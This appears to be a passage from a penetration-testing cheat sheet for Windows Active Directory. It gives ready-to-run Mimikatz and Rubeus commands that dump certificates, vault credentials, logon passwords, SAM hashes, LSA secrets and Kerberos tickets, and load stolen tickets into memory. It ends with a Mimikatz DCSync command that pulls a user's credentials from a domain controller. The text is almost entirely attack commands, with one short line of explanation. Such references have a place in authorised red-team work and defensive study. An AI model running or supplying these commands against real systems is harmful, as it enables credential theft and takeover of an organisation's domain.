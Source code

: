 #### Mimikatz dump certs
```
Invoke-Mimikatz –DumpCerts
```

#### Mimikatz dump vault
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch" "vault::list"'
```

#### Mimikatz dump all to find privs
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::tickets /export" "kerberos::list /export" "vault::cred /patch" "vault::list" "lsadump::sam" "lsadump::secrets" "lsadump::cache"'
```

## Rubeus
#### Dump tickets
```
./Rubeus.exe triage
./Rubeus.exe dump /luid:<ID> /service:<SERVICE> /nowrap
```

#### Save ticket to file
```
[System.IO.File]::WriteAllBytes("C:\Users\public\ticket.kirbi", [System.Convert]::FromBase64String("<TICKET STRING>"))
```

#### Get info on ticket
```
./Rubeus.exe describe /ticket:<TICKET FILE>
```

#### Load Ticket into memory
```
.\Rubeus.exe /ticket:<TICKET BASE64>
.\Rubeus.exe /ticket:<FILE TO KIRBI FILE>
```

#### Calc hash
```
.\Rubeus.exe hash /password:<PASSWORD> /user:<USER> /domain:<DOMAIN>
```

## DC Sync
- Extract creds from the DC without code execution using DA privileges.

#### Mimikatz DCSync attack specific user
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<USER> /domain:<DOMAIN>"'
```
